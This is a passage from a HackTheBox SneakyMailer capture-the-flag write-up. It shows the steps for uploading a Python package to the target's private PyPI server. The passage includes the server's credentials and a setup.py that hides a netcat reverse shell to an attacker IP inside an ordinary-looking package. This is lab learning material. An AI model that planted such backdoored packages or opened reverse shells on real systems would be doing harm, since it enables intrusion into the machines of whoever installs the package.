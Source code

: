 ```
# On client-side, edit or create a ~/.pypirc file with a similar content:

[distutils]
index-servers =
  pypi
  local

[pypi]
username:<your_pypi_username>
password:<your_pypi_passwd>

[local]
repository: http://localhost:8080
username: <some_username>
password: <some_passwd>

# Then from within the directory of the python-project you wish to upload, issue this command:

python setup.py sdist upload -r local
```
We need two files, `.pypirc` and `setup.py`.

So, here's our `.pypirc`:
```
[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```                                                                           
And here's our `setup.py`:
```
# from https://packaging.python.org/tutorials/packaging-projects/
import setuptools
import os

# Reverse Shell
os.system('nc -e /bin/bash 10.10.14.66 4444')

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE", # Replace with your own username
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description=long_description,
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
)
```
Host the files with `python3 -m http.server` and `wget` them. FTP could also potentially work. Since permission is denied in /var/www/pypi.sneakycorp.htb/packages, we have to create our package outside of it.
```
# Attacker
root@kali:~/Security/HackTheBox/SneakyMailer# python3 -m http.server
```